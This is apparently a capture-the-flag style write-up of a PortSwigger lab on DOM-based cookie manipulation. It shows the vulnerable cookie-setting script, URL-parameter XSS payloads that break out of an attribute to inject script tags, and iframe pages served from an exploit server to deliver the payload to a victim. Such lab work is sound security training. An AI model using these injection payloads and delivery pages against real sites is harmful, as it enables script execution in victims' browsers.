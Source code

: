 
# DOM-based cookie manipulation

This lab demonstrates DOM-based client-side cookie manipulation. To solve this lab, inject a cookie that will cause XSS on a different page and call the print() function. You will need to use the exploit server to direct the victim to the correct pages.

---------------------------------------------

References: 

- https://portswigger.net/web-security/dom-based/cookie-manipulation



![img](images/DOM-based%20cookie%20manipulation/1.png)

---------------------------------------------

We find this code in the blog posts:

```
<script>
    document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
</script>
```



![img](images/DOM-based%20cookie%20manipulation/2.png)

When we return to the home page we see the new cookie is set:



![img](images/DOM-based%20cookie%20manipulation/3.png)

We can change the URL adding GET parameters and the cookie changes too:



![img](images/DOM-based%20cookie%20manipulation/4.png)

Also there is a button to check the last viewed product:



![img](images/DOM-based%20cookie%20manipulation/5.png)


If we add a payload like this we should be able to execute a XSS attack:

```
'><script>alert(1)</script><a href='
```

```
/product?productId=1&a=b'><script>alert(1)</script><a href='
```

When we return to the home page we see the payload was successful:



![img](images/DOM-based%20cookie%20manipulation/6.png)


So we will change it to print the page:

```
/product?productId=1&a=b'><script>print()</script><a href='
```

I used this iframe and had to send it twice:

```
<head>
    <style>
        #target_website {
            position:relative;
            // width:100%;
            //height:100%;
            width:500px;
            height:600px;
            opacity:0.1;
            z-index:2;
            }
    </style>
</head>
<body>
    <iframe id="target_website" src="https://0a47002b042aee6c8072fd12001d0057.web-security-academy.net/product?productId=1&a=b%27><script>print()</script><a href=%27">
    </iframe>
</body>
```

The official solution does this sending only one message:

```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://YOUR-LAB-ID.web-security-academy.net';window.x=1;">
```
